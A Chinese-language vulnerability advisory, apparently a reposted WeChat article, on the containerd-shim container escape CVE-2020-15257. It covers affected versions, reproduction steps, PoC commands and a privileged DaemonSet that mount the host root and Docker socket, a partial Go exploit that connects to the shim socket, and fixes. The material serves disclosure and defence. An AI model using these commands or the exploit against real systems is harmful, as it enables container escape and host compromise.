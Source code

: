 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/8Zel4oPXdctUE1kotti8Yw)

### 漏洞简介

containerd 是行业标准的容器运行时，可作为 Linux 和 Windows 的守护程序使用。在版本 1.3.9 和 1.4.3 之前的容器中，容器填充的 API 不正确地暴露给主机网络容器。填充程序的 API 套接字的访问控制验证了连接过程的有效 UID 为 0，但没有以其他方式限制对抽象 Unix 域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效 UID 为 0，但特权降低）导致新进程以提升的特权运行。

### 影响版本

containerd < 1.4.3  
containerd < 1.3.9

### 安全版本

containerd >= 1.4.3  
containerd >= 1.3.9

### 漏洞复现

1、首先安装有漏洞的 containerd 版本  
2、用 root 用户以共享主机网络的方式启动容器 sudo docker run -itd –network=host ubuntu:latest /bin/bash  
3、在容器内执行`cat /proc/net/unix | grep 'containerd-shim' | grep '@'`可看到抽象命名空间 Unix 域套接字  
4、根据漏洞描述通过图片中的抽象命名空间 Unix 域套接字可访问 dockerd-shim rpc api  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3ayVbPMbsUQSYCCmfo29ZSzZIKQMvmf6WrgA8DUodEfMWRPewPOXeIPbnPmz5Epjc3gUV8FD2ibOOg/640?wx_fmt=png)

### 漏洞应急与自测

为了便于验证用户环境中是否存在该漏洞，我们提供了 poc 镜像。使用方式如下：  
`sudo docker run -it --rm -v /:/host/ -v /var/run/docker.sock:/var/run/docker.sock --net=host hub.dosec.cn/library/poc:CVE-2020-15257`  
![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3ayVbPMbsUQSYCCmfo29ZSzykZN2HAODXcibTYs8iaT0CkLVF6bOqgY2wWGYm3fW61TEInZPk5TcAZw/640?wx_fmt=png)

为了便于用户在集群中验证该漏洞，可使用如下命令查看共享了主机网络的 pod  
`kubectl get pod --all-namespaces -o custom-columns=namespace:.metadata.namespace,CONTAINER:.spec.containers[0].name,NetWork:.spec.hostNetwork,hostname:.spec.nodeName,nodeIP:.status.hostIP | grep true`

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3ayVbPMbsUQSYCCmfo29ZSzdIBqeUWpaXrDJh43AGgsibSsjeTJFP1NECibNpZGa3uvMkloqeYtAU3g/640?wx_fmt=png)

当然也可以使用如下编排文件进行检测

```
apiVersion: apps/v1kind: DaemonSetmetadata:  name: cve-2020-15257  namespace: cvetestspec:  selector:    matchLabels:      name: cve  template:    metadata:      name: cve-2020-15257      labels:        name: cve    spec:     # restartPolicy: always      containers:      - name: cve-2020-15257        image: dosecteam/pocs:CVE-2020-15257        securityContext:          privileged: true        env:        - name: KUBERNETES_NODENAME          valueFrom:            fieldRef:              apiVersion: v1              fieldPath: spec.nodeName        volumeMounts:          - name: host-fs            mountPath: /host          - name: socket-fs            mountPath: /var/run/docker.sock      hostNetwork: true      volumes:        - name: host-fs          hostPath:            path: /        - name: socket-fs          hostPath:            path: /var/run/docker.sock
```

执行如下命令：

```
kubectl create ns cveteskubectl apply -f checkcve.yamlkubectl get po -n cvetest|awk '{print $1}' | xargs -i kubectl logs -n cvetest  {}
```

### 漏洞利用附非完整 exp

参考 containerd 官网源码，我们可以在容器内访问到该 socket 文件。然后可启动一个新的容器，该容器挂载宿主机根目录到容器内的 / host 目录，即可实现对宿主机完全读写，达到容器逃逸的目的。

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3ayVbPMbsUQSYCCmfo29ZSzhGicZKTAZxWEpt8SbSoIleIv7yBuiaiaqzQ7JtVMicQw7Uib2lQQ3zRKhkA/640?wx_fmt=png)

下面为非完整 exp。请自行脑补。

```
package mainimport (    "fmt"    "net"    "os"    "regexp")func getshimunixpath() (string, error) {    file, err := os.Open("/proc/net/unix")    if err != nil {        return "", err    }    var b []byte = make([]byte, 0x1fff)    file.Read(b)    defer file.Close()    socklist := string(b)    regString := "/containerd-shim/moby/[a-f 0-9]{64}/shim.sock"    reg, _ := regexp.Compile(regString)    path := reg.FindString(socklist)    if path == "" {        err = fmt.Errorf("no sock file found")        return "", err    }    path = "\x00" + path    return path, err}func main() {    shimunixpath, err := getshimunixpath()    if err != nil {        fmt.Println(err)        return    }    conn, err := net.Dial("unix", shimunixpath)    if err != nil {        fmt.Println(err)        return    }    //do something with this connection    //此处省略关键信息，自行脑部    //此处省略关键信息，自行脑部    //此处省略关键信息，自行脑部    defer conn.Close()}
```

### 漏洞修复

1.  升级 containerd 至最新版本。
    
2.  通过添加如 deny unix addr=@** 的 AppArmor 策略禁止访问抽象套接字。
    

应当注意，应停止并重新启动使用旧版本的容器填充垫片启动的容器，因为即使在升级后，运行中的容器仍将继续受到攻击。如果您没有为不受信任的用户提供在与垫片相同的网络名称空间中启动容器的能力（通常是 “主机” 网络名称空间，例如 docker run –net = host 或 hostNetwork：在 Kubernetes 窗格中为 true），并且以有效 UID 为 0 运行时，您就不会受到此问题的影响。

![](https://mmbiz.qpic.cn/mmbiz_png/uxzyPCzbE3bW732RU7NAiaZc4JT6DxmZyUNeZGuxDkFCEEStghYzbBh4Va87vPYuw6llsvJzAmVg3I2f9icYTcKA/640?wx_fmt=png)
